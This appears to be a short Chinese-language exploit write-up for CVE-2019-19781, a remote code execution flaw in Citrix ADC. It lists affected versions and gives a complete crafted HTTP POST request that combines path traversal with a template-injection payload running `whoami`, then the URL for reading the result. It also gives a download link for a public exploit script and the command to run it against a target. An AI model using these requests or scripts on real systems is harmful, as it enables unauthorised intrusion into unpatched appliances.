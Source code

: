 # Citrix 远程代码执行漏洞复现（CVE-2019-19781）

## 漏洞影响
Citrix 13.x,12.1,12.0,11.1,10.5

## 漏洞复现
方法一：
构造如下数据包

```
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/1.1
Host: target-ip
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: ../../../netscaler/portal/templates/15ffbdca
Content-Length: 89
```



url=http://example.com&title=test&desc=[% template.new('BLOCK' = 'print `whoami`') %]
访问/vpn/../vpns/portal/test.xml即可返回命令执行结果
方法二：
exp下载：https://codeload.github.com/jas502n/CVE-2019-19781/zip/master

python CVE-2019-19781-Citrix-ADC-Remote-Code-Execution.py https://target-ip
提示代理错误的话，挂本地代理即可。